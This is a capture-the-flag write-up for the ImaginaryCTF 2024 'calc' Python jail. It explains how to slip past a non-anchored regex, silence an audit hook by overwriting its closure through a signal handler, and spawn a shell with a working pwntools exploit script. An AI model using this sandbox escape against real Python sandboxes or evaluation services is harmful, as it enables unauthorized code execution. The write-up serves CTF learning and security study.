 # ImaginaryCTF 2024 calc

```python
#!/usr/bin/env python3
from sys import addaudithook
from os import _exit
from re import match


def safe_eval(exit, code):
    def hook(*a):
        exit(0)

    def dummy():
        pass

    dummy.__code__ = compile(code, "<code>", "eval")
    addaudithook(hook)
    return dummy()


if __name__ == "__main__":
    expr = input("Math expression: ")
    if len(expr) <= 200 and match(r"[0-9+\-*/]+", expr):
        print(safe_eval(_exit, expr))
    else:
        print("Do you know what is a calculator?")
```

Requirements:

1. Input is a expression: Use list comprehension to execute multiple statements
2. Input should match regex: Use `1,` to bypass since it is not a full match
3. Audit hook: Add signal handler, raise signal and change content of the audit hook to bypass

This writeup is inspired by [ICTF 2024 - All PyJails 『ANY %』on Shy blog](https://blog.antoine.rocks/%F0%9F%91%A9%E2%80%8D%F0%9F%8F%ABwriteups/ictf%202024%20-%20all%20pyjails/). It is nicely written, you are strongly encouraged to read it.

If we launch shell directly, the audit hook will immediately kill the process.

The audit hook is implemented in `def hook(*a):`:

```python
def safe_eval(exit, code):
    def hook(*a):
        exit(0)
```

It captures `exit` from the outer function. It is stored in `__closure__`:

```python
import os
def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    
    # prints (<cell at 0x1042321c0: builtin_function_or_method object at 0x104169400>,)
    print(hook.__closure__[0])

safe_eval(os._exit, "")
```

We can override the captured `exit` to `print`:

```python
import os
def safe_eval(exit, code):
    def hook(*a):
        exit(0)
    
    hook.__closure__[0].__setattr__("cell_contents", print)
    # print(0) instead of exit(0)
    hook()

safe_eval(os._exit, "")
```

Now the audit hook effectively does nothing. The next problem is, how do we access `hook`? It is a local function to `safe_eval`, so we cannot access it from outside, unless:

1. We can get a frame via raising an exception and catching it, as [audited - pwn, 263pts writeup by rickastley / the cr0wn](https://ctftime.org/writeup/25467); however, we cannot use try-except in an expression due to `compile(..., "eval")`
2. We can get a frame by registering a signal handler and raising the signal, as [[ICTF 2024 - All PyJails 『ANY %』on Shy blog](https://blog.antoine.rocks/%F0%9F%91%A9%E2%80%8D%F0%9F%8F%ABwriteups/ictf%202024%20-%20all%20pyjails/)]

The second method is used:

1. Get signal module via `s = __import__["sys"].modules["_signal"]`
2. Register signal handler and replace the `exit` function in `hook`: `s.signal(1, lambda num, frame: frame.f_back.f_locals["hook"].__closure__[0].__setattr__("cell_contents", print))`, here `frame` refers to the frame of `dummy`, so `frame.f_back` belongs to `safe_eval`, and we can find `hook` from `frame.f_back.f_locals["hook"]`
3. Raise the signal handle to mute the audit hook: `s.raise(1)`
4. Eventually get shell: `__import__("os").system("sh")`

Attack script:

```python
from pwn import *

context(log_level="debug")

p = process(["python3", "calc.py"])
p.sendline(
    (
        "1,"
        + '[s:=__import__("sys").modules["_signal"],'
        + 's.signal(1, lambda num, frame: frame.f_back.f_locals["hook"].__closure__[0].__setattr__("cell_contents", print)),'
        + "s.raise_signal(1),"
        + '__import__("os").system("sh")]'
    ).encode()
)
p.interactive()
```

